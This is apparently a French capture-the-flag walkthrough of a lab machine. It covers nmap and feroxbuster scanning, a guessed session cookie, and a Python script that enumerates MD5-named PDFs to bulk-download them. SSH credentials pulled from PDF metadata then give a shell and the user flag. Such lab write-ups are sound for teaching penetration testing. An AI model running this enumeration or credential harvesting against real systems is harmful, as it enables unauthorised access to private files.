


## 1. Découverte des services

### Nmap

```bash
nmap -sV --top-ports 5000 -T5 192.168.56.143
```



---

## 2. Énumération HTTP

### Feroxbuster

```bash
feroxbuster -k -u http://192.168.56.143 -x txt,html,php
```



On découvre un fichier `hint.txt` :

```bash
curl http://192.168.56.143/hint.txt
```

```text
What's the ultimate answer to the universe?
```


L'indice fait référence à **42** — la réponse à la vie, l'univers et le reste (*Le Guide du voyageur galactique*).

---

## 3. Découverte du service sur le port 8080

Sur `http://192.168.56.143:8080` on repère une application **File Management System** protégée par un cookie `session_token`.

En essayant la valeur `42` comme token, l'accès est accordé. ✅

---

## 4. Téléchargement massif de PDF

En observant la structure de l'URL de téléchargement `/view/?filename=<fichier>.pdf`, on comprend que les noms de fichiers correspondent au **MD5 d'un numéro** (1, 2, 3, …).

Script Python pour automatiser le téléchargement :

```python
#!/usr/bin/env python3
import hashlib
from pathlib import Path
import requests


def is_pdf_response(resp: requests.Response) -> bool:
    ctype = (resp.headers.get("Content-Type") or "").lower()
    if "application/pdf" in ctype:
        return True
    return resp.content.startswith(b"%PDF")


def download_pdfs(
    ip: str = "192.168.56.143",
    port: int = 8080,
    cookie_name: str = "session_token",
    cookie_value: str = "42",
    start: int = 1,
    end: int = 100,
    out_dir: str = "downloads",
    timeout: int = 10,
    stop_after_consecutive_misses: int = 15,
) -> None:
    base_url = f"http://{ip}:{port}/view/?filename="
    out_path = Path(out_dir)
    out_path.mkdir(parents=True, exist_ok=True)

    sess = requests.Session()
    sess.cookies.set(cookie_name, cookie_value)

    consecutive_misses = 0
    downloaded = 0

    for num in range(start, end):
        md5_hash = hashlib.md5(str(num).encode()).hexdigest()
        pdf_url = f"{base_url}{md5_hash}.pdf"
        filename = out_path / f"{num}.pdf"

        if filename.exists() and filename.stat().st_size > 0:
            print(f"[=] Skip (exists): {filename}")
            continue

        try:
            resp = sess.get(pdf_url, timeout=timeout, allow_redirects=True)

            if resp.status_code != 200:
                consecutive_misses += 1
                print(f"[-] {num}: HTTP {resp.status_code}")
            elif not resp.content:
                consecutive_misses += 1
                print(f"[-] {num}: empty body")
            elif not is_pdf_response(resp):
                consecutive_misses += 1
                print(f"[-] {num}: not a PDF (Content-Type={resp.headers.get('Content-Type')})")
            else:
                filename.write_bytes(resp.content)
                downloaded += 1
                consecutive_misses = 0
                print(f"[+] Downloaded: {filename} ({len(resp.content)} bytes)")

            if stop_after_consecutive_misses and consecutive_misses >= stop_after_consecutive_misses:
                print(f"[!] Stopping: {consecutive_misses} consecutive misses.")
                break

        except requests.Timeout:
            consecutive_misses += 1
            print(f"[!] {num}: timeout")
        except requests.RequestException as e:
            consecutive_misses += 1
            print(f"[!] {num}: request error: {e}")

    print(f"\nDone. Downloaded: {downloaded}. Saved in: {out_path.resolve()}")


if __name__ == "__main__":
    download_pdfs()
```

**99 PDF** sont téléchargés avec succès.

---

## 5. Extraction d'informations dans les PDF

On utilise `strings` pour chercher des métadonnées dans tous les PDF :

```bash
strings -n 6 -a downloads/**/* 2>/dev/null | sort -u
```

En filtrant les résultats on identifie une entrée suspecte dans le champ `/Author` des métadonnées PDF :

```
/Author (welcome:lamar57)
```

Cette entrée se trouve dans `57.pdf` et nous donne directement des **credentials SSH** :

| Champ | Valeur |
|---|---|
| Utilisateur | `welcome` |
| Mot de passe | `lamar57` |

---

## 6. Accès SSH — Flag utilisateur

```bash
ssh welcome@192.168.56.143
# Password: lamar57
```

Le flag utilisateur est présent dans `/home/welcome/user.txt`. ✅

La commande `sudo -l` confirme que l'utilisateur ne dispose d'**aucun droit sudo** — la voie vers la privesc sera ailleurs.